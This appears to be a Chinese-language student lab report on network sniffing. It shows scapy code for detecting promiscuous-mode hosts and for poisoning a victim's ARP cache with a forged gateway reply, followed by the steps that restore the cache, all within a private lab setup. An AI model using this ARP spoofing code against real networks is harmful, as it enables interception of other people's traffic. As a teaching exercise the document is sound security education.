 # 网络监听

### 实验环境搭建

- 网络拓扑

  ![](img/实验拓扑图.png)

- 各主机结点信息

  - 攻击者主机
    - `08:00:27:bb:a1:1c`
    - `172.16.111.133`

  - 受害者主机
    - `08:00:27:3b:c4:f5`
    - `172.16.111.110`

  - 网关
    - `08:00:27:d5:7a:32`
    - `172.16.111.1`

### 实验准备

#### 安装 scapy

- 在攻击者主机上安装好 scapy

  ```bash
  # 安装 python3
  sudo apt update && sudo apt install python3 python3-pip
  
  # ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
  pip3 install scapy[complete]
  ```

  ![](img/下载python3.png)

  ![](img/下载scapy.png)

### 实验一检测局域网中的异常终端

- 在受害者主机上检查网卡的 `混杂模式` 是否启用

  ```bash
  ip link show eth0
  ```

  ![](img/查看是否开启混杂模式.png)

- 在攻击者主机上开启 scapy

  ```bash
  sudo scapy
  ```

  ![](img/开启scapy.png)

- 为查看混杂模式主机而发送ARP请求

  ```python
  # 在 scapy 的交互式终端输入以下代码回车执行
  pkt = promiscping("172.16.111.110")
  ```

  ![](img/pkt.png)

- 回到受害者主机上开启网卡的`混杂模式`

  ```bash
  # 注意上述输出结果里应该没有出现 PROMISC 字符串
  # 手动开启该网卡的「混杂模式」
  sudo ip link set eth0 promisc on
  ```

- 此时会发现输出结果里多出来了 `PROMISC`

  ```bash
  ip link show eth0
  ```

  ![](img/开启混杂模式.png)

- 回到攻击者主机上的 scapy 交互式终端继续执行命令，观察两次命令的输出结果差异

  ```python
  pkt = promiscping("172.16.111.110")
  ```

  ![](img/观察差异.png)

  - 可以看到会显示受害者主机的 `ip地址` 和 `MAC地址`

- 在受害者主机上手动关闭该网卡的 `混杂模式`

  ```bash
  sudo ip link set eth0 promisc off
  ```

- 查阅资料，promiscping 命令会发送 `ARP who-has` 请求。

  > - 混杂模式 网卡能够接收所有经过它的数据流，而不论其目的地址是否是它
  > - 普通模式 网卡只接受发给自己地址的数据包


### 实验二：手工单步“毒化”目标主机的 ARP 缓存

- 获取当前局域网的网关 MAC 地址

  ```python
  # 构造一个 ARP 请求
  arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")
  
  # 查看构造好的 ARP 请求报文详情
  arpbroadcast.show()
  ```

  ![](img/获取当前局域网的网关MAC地址.png)

- 发送这个 ARP 广播请求

  ```python
  recved = srp(arpbroadcast, timeout=2)
  ```

- 网关 MAC 地址如下

  ```python
  gw_mac = recved[0][0][1].hwsrc
  
  gw_mac
  ```

  ![](img/查看mac地址.png)

- 伪造网关的 ARP 响应包

  ```python
  # 准备发送给受害者主机 172.16.111.110
  # ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
  
  # 这里要注意按照课件的代码试不能“毒化”的，需要在外面加一层Ethernet帧头
  arpspoofed = Ether()/ARP(op=2, psrc="172.16.111.1 ", pdst="172.16.111.110", hwdst="08:00:27:bb:a1:1c")
  
  # 发送上述伪造的 ARP 响应数据包到受害者主机
  sendp(arpspoofed)
  ```

  ![](img/伪造网关响应包.png)

- 此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

  ```bash
  ip neigh
  ```

  ![](img/伪造成功.png)

- 恢复受害者主机的 ARP 缓存记录

  ```python
  # 伪装网关给受害者发送 ARP 响应
  restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1 ",hwsrc="08:00:27:d5:7a:32", pdst="172.16.111.110", hwdst="08:00:27:3b:c4:f5")
  
  sendp(restorepkt1, count=100, inter=0.2)
  ```

  ![](img/恢复.png)

- 此时在受害者主机上准备“刷新”网关 ARP 记录

  ```bash
  ## 在受害者主机上尝试 ping 网关
  ping 172.16.111.1
  
  ## 静候几秒 ARP 缓存刷新成功，退出 ping
  ## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
  ip neigh
  ```

  ![](img/恢复成功.png)

### 参考资料

[2020-ns-public-LyuLumos](https://github.com/CUCCS/2020-ns-public-LyuLumos/blob/ch0x04/ch0x04/%E7%BD%91%E7%BB%9C%E7%9B%91%E5%90%AC.md)
